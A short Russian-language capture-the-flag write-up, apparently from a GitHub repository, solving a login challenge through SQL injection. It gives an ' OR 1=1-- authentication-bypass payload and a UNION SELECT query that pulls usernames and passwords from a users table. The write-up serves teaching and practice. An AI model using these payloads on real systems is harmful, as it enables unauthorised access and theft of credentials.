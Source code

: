 ## WriteUP
- Для начала посмотрим исходный код элемента, и увиди там подсказку.

<img width="328" alt="Снимок экрана 2024-09-16 в 15 33 11" src="https://github.com/user-attachments/assets/401016f7-f372-4607-ba6f-1a161ad77e14">
- Читаем про SQL injection и пробуем самый простой шаблон, поле пароля можно оставить пустым 
```
' OR 1=1--
или
admin' or 1=1--
```
<img width="1512" alt="Снимок экрана 2024-09-16 в 15 37 13" src="https://github.com/user-attachments/assets/0a739a19-92c1-45ec-9a57-d563079ee4a7">
# Part 2 
- Из условий ясно что есть второй флаг и та же инъекция, значит надо делать более сложный запрос. Из первой части понятно что полей выводится 2 и второе это не пароль и это сильно помогает нам. Составим UNION запрос 

```
' UNION SELECT username, password FROM users--
```
<img width="1512" alt="Снимок экрана 2024-09-16 в 15 40 15" src="https://github.com/user-attachments/assets/69bc9dc4-2417-49a7-b564-3d8c63bbd3fb">
-А вот и флаг
